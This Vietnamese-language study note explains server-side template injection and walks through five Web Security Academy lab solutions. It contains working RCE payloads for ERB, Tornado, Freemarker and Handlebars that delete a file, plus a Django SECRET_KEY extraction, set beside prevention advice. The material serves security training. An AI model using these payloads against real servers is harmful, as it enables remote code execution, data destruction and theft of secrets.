# Server-side Template Injection (5 labs)

**Định nghĩa:** 

SSTI là lỗ hổng xảy ra khi:

- Ứng dụng web nhúng dữ liệu đầu vào của người dùng vào template mà không kiểm tra hoặc escape phù hợp.
- Kẻ tấn công khai thác để thực thi lệnh, truy xuất dữ liệu, hoặc chiếm quyền kiểm soát server.

> Ví dụ: Jinja2, Freemarker, ERB, Twig, Velocity, Handlebars…

**Nguyên nhân:**

- Ứng dụng render động HTML với template engine (Jinja2, ERB, Velocity, v.v).
- Nhúng trực tiếp dữ liệu đầu vào người dùng vào template → thực thi không kiểm soát.
- Developer thiếu hiểu biết về cú pháp template và không filter/escape dữ liệu.

Ví dụ:

```
Template("Hello " + user_input)
```

**Tác động:**

- Remote Code Execution (RCE): chạy lệnh trên server.
- Đọc/ghi file, truy cập dữ liệu nhạy cảm.
- Bypass bảo mật, leo thang đặc quyền.
- Xây dựng backdoor, pivot tấn công sâu hơn.

**Các kỹ thuật tấn công:** 

#### 1. **Detect SSTI (phát hiện)**

Inject payload thử, kiểm tra kết quả render:

```
{{7*7}}     (Jinja2)
<%=7*7%>    (ERB)
${7*7}      (Velocity)
```

→ Nếu thấy `49` → có khả năng SSTI.

------

#### 2. **Template expression injection**

- Thêm biểu thức toán học, biến có sẵn.
- Thử lỗi để xem engine trả lỗi.

------

#### 3. **RCE thông qua built-in**

- **Jinja2:** `config` → `os` → `popen`.
- **Freemarker:** `freemarker.template.utility.Execute`.
- **ERB:** `system("id")`.
- **Twig:** `{{ a.__globals__.os.system('id') }}` (cũ, nay khó hơn).

------

#### 4. **Bypass filter / sandbox**

- Kết hợp filter bypass + double evaluation.
- Dùng import, new(), eval, self-reference.

------

#### 5. **Blind SSTI**

- Không hiển thị kết quả → dùng side-channel:
  - Thời gian (`sleep`).
  - DNS request, HTTP request ra ngoài.

------

#### 6. **Code context vs. expression context**

- Trong `` có thể viết nhiều lệnh Python (Jinja2).
- Trong `{{ ... }}` chỉ eval ra giá trị.

**Cách phòng tránh:** 

Không render trực tiếp dữ liệu từ user.
Escape hoặc filter input bằng thư viện chuẩn.
 Sử dụng context-specific encoding:

- HTML escape, URL encode, v.v.
- Disable các function nguy hiểm (`eval`, `Execute`, `$where`).
- Giới hạn template engine chỉ render template static, không chạy code.
- Review code & test tự động (SAST, DAST).


**Common Payload:**

| Mục đích         | Payload ví dụ                                                |
| ---------------- | ------------------------------------------------------------ |
| Test             | `{{7*7}}`                                                    |
| Info leak        | `{{config.items()}}`                                         |
| RCE (Jinja2)     | `{{ ''.__class__.__mro__[2].__subclasses__()[40]('id',shell=True,stdout=-1).communicate() }}` |
| RCE (Freemarker) | `<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }` |
| RCE (ERB)        | `<%= system("id") %>`                                        |

## Practitioner: 

### Lab1: Basic server-side template injection

Lab des: 

Ứng dụng dễ bị **server-side template injection (SSTI)** do **xây dựng template ERB không an toàn**.

Mục tiêu: Lợi dụng điểm yếu này để thực thi mã tuỳ ý và **xoá file** `/home/carlos/morale.txt`.

ERB là viết tắt của Embedded Ruby – một công cụ nằm trong ngôn ngữ Ruby dùng để nhúng (embed) mã Ruby vào trong các file text (thường là HTML).

Mục đích chính của ERB: tạo template động, kết hợp nội dung tĩnh (HTML, text) với nội dung động (mã Ruby sinh ra) để tạo ra trang HTML cuối cùng.


Steps:

1. Phát hiện tham số đầu vào:

   - Khi xem chi tiết sản phẩm, ta thấy tham số `message` được dùng để hiển thị thông báo trên trang.
   - `Unfortunately this product is out of stock`.

   

2. Tra cứu ERB syntax:

   - Theo ERB documentation:
     - `<%= expression %>`: thực thi `expression` và in kết quả ra.
   - Do template được biên dịch và thực thi, nên ta có thể tiêm mã Ruby.

3. Kiểm tra xem có thực sự bị SSTI:

   - Gửi payload: `<%= 7*7 %>`

   - Truy cập:

     ```
     https://YOUR-LAB-ID.web-security-academy.net/?message=<%25=+7*7+%25>
     => URL encode:
     https://0a0b006f04c9baeb8018e4050061001a.web-security-academy.net/?message=%3C%=%207*7%20%%3E
     ```

   - Kết quả: server render ra số `49` → xác nhận SSTI.

     

4. Thực thi mã để xóa file:

   - Trong Ruby, dùng hàm `system` để chạy lệnh hệ điều hành.

   - Payload:

     ```
     <%= system("rm /home/carlos/morale.txt") %>
     ```

   - URL-encode thành:

     ```
     <%25=+system(%22rm+/home/carlos/morale.txt%22)+%25>
     ```

   - Truy cập:

     ```
     https://YOUR-LAB-ID.web-security-academy.net/?message=<%25=+system(%22rm+/home/carlos/morale.txt%22)+%25>
     
     https://0a0b006f04c9baeb8018e4050061001a.web-security-academy.net/?message=%3C%=%20system(%22rm%20/home/carlos/morale.txt%22)%20%%3E
     ```

     

   - File bị xoá thành công → hoàn thành lab.


### Lab 2: Basic server-side template injection (code context)

Lab des: Lab này chứa lỗ hổng Server-Side Template Injection (SSTI) vì ứng dụng dùng template Tornado không an toàn:
 – Cho phép người dùng kiểm soát trực tiếp biến blog-post-author-display mà không lọc đầu vào.



Sau khi comment xong, nếu người dùng thay đổi `preferred name` trong `my account`, comment của người dùng sẽ được điều chỉnh tên hiển thị tương ứng (name, first name hay nickname)


Steps:

- Test lỗi ssti ở req POST thay đổi preferred name: 

`blog-post-author-display=user.name}}{{7*8}}`



Kết quả hiển thị ở trang blog ==> đã thực thi thành công payload python, chtr có lỗi ssti

- Trong Tornado template, cho phép thực thi python code bằng: ``

```python

{{os.system('rm /home/carlos/morale.txt')}}
```

- Inject payload vào req POST: 

```
blog-post-author-display=user.name}}{{os.system('rm /home/carlos/morale.txt')}}
```



### Lab 3: Server-side template injection using documentation

Lab des: 

Ứng dụng có chứa lỗ hổng SSTI, mục tiêu là nhận diện engine template đang được sử dụng và khai thác lỗ hổng này, thực thi lệnh hệ thống: xóa file `/home/carlos/morale.txt`


Steps: 

- Đăng nhập và edit template: 



- Kiểm tra và nhận diện template engine

  - Vào phần chỉnh sửa template mô tả sản phẩm.

  - Thử thêm hoặc thay đổi một biểu thức, ví dụ:

    ```
    ${foobar}
    ```

Lưu template và quan sát lỗi: 



=> Lỗi cho thấy trang web đang dùng **Freemarker** (template engine).

Theo tài liệu Freemarker:

- Các biểu thức: `${ someExpression }`
- Built-in `new()` có thể tạo ra đối tượng Java bất kỳ (miễn là lớp đó implement interface `TemplateModel`).

- Trong phần JavaDoc về các lớp implement `TemplateModel`, phát hiện lớp:

```
freemarker.template.utility.Execute
```

Lớp này cho phép chạy **shell command**.

Từ documentation, và theo ví dụ của @albinowax:

```
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ ex("rm /home/carlos/morale.txt") }
```

Giải thích:

- `?new()` tạo instance của lớp `Execute`.
- Sau đó, gọi `ex("...")` để chạy lệnh.

Xóa đoạn test `${foobar}` (hoặc đoạn sai trước đó).

Thêm payload này vào template.

Lưu template.

Mở lại trang product chứa template => lệnh sẽ được thực thi, file bị xóa.




### Lab 4: Server-side template injection in an unknown language with a documented exploit


Lab des:

- Nhận diện template engine.
- Tìm và áp dụng payload đã được nghiên cứu sẵn để thực thi lệnh xóa file `/home/carlos/morale.txt`.

Steps:

**Kiểm tra ứng dụng**

- Khi xem chi tiết sản phẩm, request có tham số:

  ```
  ?message=Unfortunately+this+product+is+out+of+stock
  ```

- Chuỗi này được hiển thị trên trang → nghĩa là tham số `message` được render thông qua template engine.

**Fuzzing để nhận diện template**

`?message=${{<%[''}}`

Quan sát lỗi => website dùng Handlerbars



Sử dụng POC có sẵn osint được trên mạng, và chỉnh sửa payload: 

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

URL encode: 

`wrtz%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%20%20%20%20%7B%7B%23with%20%22e%22%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%28lookup%20string.sub%20%22constructor%22%29%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%22return%20require%28%27child_process%27%29.exec%28%27rm%20%2Fhome%2Fcarlos%2Fmorale.txt%27%29%3B%22%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string.sub.apply%200%20codelist%29%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0A%7B%7B%2Fwith%7D%7D`



### Lab 5: Server-side template injection with information disclosure via user-supplied objects

Lab des: 

Khai thác SSTI để truy xuất thông tin nhạy cảm.

Lấy **Django SECRET_KEY** và nộp lên hệ thống để hoàn thành lab.

Steps:

Login, fuzzing, xác định template: Django

Theo tài liệu Django, có thể dùng **built-in template tag**:

```

```

Chèn `` vào template và lưu lại.



=> Kết quả trả về trên trang sẽ hiển thị danh sách biến, object có thể truy cập từ template.

Trong đó có object **settings**.

Xem tài liệu Django: `settings` object có thuộc tính **SECRET_KEY**.

Thay `` bằng:

```
{{settings.SECRET_KEY}}
```

Lưu lại template → giá trị SECRET_KEY sẽ hiện ra trên trang.




